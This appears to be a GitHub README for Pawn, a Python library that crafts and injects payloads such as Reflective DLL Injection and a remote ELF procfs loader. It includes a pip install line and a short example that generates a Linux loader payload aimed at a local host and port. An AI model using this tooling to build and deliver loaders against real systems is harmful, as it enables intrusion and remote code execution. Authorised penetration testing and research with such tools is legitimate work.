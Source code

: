 # Pawn

Pawn is a collection of Python techniques used for crafting, manipulating and injecting payloads.

## Features

* Support for `Windows`, `macOS`, `Linux` and `Apple iOS` payloads.
* Support for such techniques like `Reflective DLL Injection` and `procfs loader`.
* Has modular system which allows you to write your own custom payloads.

## Installation

```
pip3 install git+https://github.com/EntySec/Pawn
```

## Examples

Example of obtaining [ELF procfs loader](https://entysec.github.io/2023-04-02-remote-elf-loading/) with custom host and port.

```python
from pawn import Pawn

pawn = Pawn()

payload = pawn.get_pawn(
    module='linux/x64/procfs_loader',
    platfrom='linux',
    arch='x64',
    host='127.0.0.1',
    port=8888
)

print(len(payload))
```

## Special Thanks

* Some parts of **assembly code for Windows** were ported from free open-source project [Metasploit Framework](https://github.com/rapid7/metasploit-framework).